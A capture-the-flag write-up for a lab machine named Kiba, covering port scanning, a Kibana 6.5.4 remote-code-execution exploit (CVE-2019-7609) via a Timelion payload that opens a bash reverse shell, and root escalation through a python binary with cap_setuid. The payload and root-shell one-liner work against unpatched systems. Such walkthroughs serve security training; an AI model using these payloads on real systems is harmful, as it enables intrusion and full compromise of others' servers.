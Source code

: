 # Kiba

## Nmap

```
sudo nmap 10.10.176.245 -p- -sS -sV                                           

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
```

Port 80 takes us to the following:

![http://10.10.176.245/index.html](<../../../.gitbook/assets/image (894).png>)

The sentance is a possible hint for later regarding capabilities. Otherwise I was unable to enumerate further interesting directories with Gobuster.

On port 5601 we have Kibana installed.

![http://10.10.176.245:5601/app/kibana#/home?\_g=()](<../../../.gitbook/assets/image (895).png>)

Checking the management pane shows we are running on version 6.5.4

![http://10.10.176.245:5601/app/kibana#/management?\_g=()](<../../../.gitbook/assets/image (896).png>)

Research related exploits we come across a RCE exploit that effect versions prior to 6.6.

{% embed url="https://github.com/mpgn/CVE-2019-7609" %}

As per the exploit head over to the Timelion pane in Kibana and paste the following payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Swapping out the IP and port where required.

![](<../../../.gitbook/assets/image (897).png>)

Hit run and then proceed to the 'Canvas' pane. Shortly after we should recieve a shell back on our netcat listener.

![](<../../../.gitbook/assets/image (898).png>)

From here we can check all capabilities with:

```
getcap -r / 2>/dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

This reveals a python binary in /home/kiba/.hackmeplease. We can run the following command to launch a Python shell as root.

```
home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](<../../../.gitbook/assets/image (899) (1).png>)
